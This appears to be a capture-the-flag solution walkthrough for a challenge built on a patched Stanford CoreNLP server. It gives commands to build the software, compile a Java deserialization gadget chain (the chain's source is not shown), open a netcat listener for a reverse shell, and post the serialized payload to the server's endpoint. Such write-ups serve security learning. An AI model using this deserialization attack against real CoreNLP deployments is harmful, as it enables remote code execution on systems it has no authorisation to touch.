 # Solution Walkthrough

### Grab CoreNLP v4.5.8 and Apply Patches
```
wget https://github.com/stanfordnlp/CoreNLP/archive/refs/tags/v4.5.8.zip && \
unzip v4.5.8.zip && \
cd CoreNLP-4.5.8 && \
patch -p1 < ../chal.patch && \
ant
```

### Compile CoreNLP
```
jar -cf ../stanford-corenlp.jar edu
```

### Write Gadget Chain and Make Serilaized Object

see sol.java for Gadget Chain, change IP and port as needed
```
javac -cp "CoreNLP-4.5.8/classes:CoreNLP-4.5.8/lib/*" sol.java
java -cp ".:CoreNLP-4.5.8/classes:CoreNLP-4.5.8/lib/*" sol
```

### Open Listener and Send Request
Window 1:
```
nc -lvnp 8000
```

Window 2:
```
wget --post-file exploit.ser 'localhost:9000/?properties={"inputFormat": "serialized", "inputSerializer":"edu.stanford.nlp.pipeline.GenericAnnotationSerializer"}' -O /tmp/t 
```

